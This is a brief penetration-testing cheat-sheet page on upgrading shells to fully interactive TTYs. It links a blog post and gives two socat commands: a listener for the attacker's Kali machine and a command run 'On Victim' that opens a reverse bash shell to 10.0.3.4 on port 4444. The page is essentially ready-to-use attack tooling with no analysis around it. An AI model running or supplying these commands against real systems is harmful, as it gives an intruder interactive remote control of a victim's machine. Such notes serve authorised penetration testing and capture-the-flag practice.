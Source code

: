 # Upgrading TTY Shells

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" %}

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
